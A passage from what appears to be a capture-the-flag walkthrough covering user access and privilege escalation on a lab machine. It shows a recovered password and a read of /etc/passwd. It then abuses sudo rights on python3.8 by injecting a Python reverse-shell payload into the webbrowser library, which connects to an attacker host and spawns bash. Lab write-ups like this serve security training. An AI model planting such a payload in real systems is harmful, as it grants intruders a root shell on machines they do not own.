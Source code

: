 After these messages we get a password that is `napinadar`, check the user with `cat /etc/passwd` and get the user `parul14n`
here we can get user.txt

![img](assets/8.PNG)

## Privilege Escalation

Check with ```sudo -l```

![img](assets/9.PNG)

User `parul14n` can access `python3.8` and `benefit.py` with sudo access without password.
Check the `benefit.py` file and we can see that it calls the python library `webbrowser`, we can't edit the file, but we can edit the `webbrowser.py` library

![img](assets/10.PNG)

After understanding a few lines of code add [payload](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/cd15b05d-822f-494d-939a-ae5a671222ff.xhtml) after the following line of code

```
def open(url, new=0, autoraise=True):
    """Display url using the default browser.

    If possible, open url in a location determined by new.
    - 0: the same browser window (the default).
    - 1: a new browser window.
    - 2: a new browser page ("tab").
    If possible, autoraise raises the window (the default) or not.
    """
	
    #PAYLOAD
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ipattacker",portattacker));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
	
    if _tryorder is None:
        with _lock:
            if _tryorder is None:
                register_standard_browsers()
```
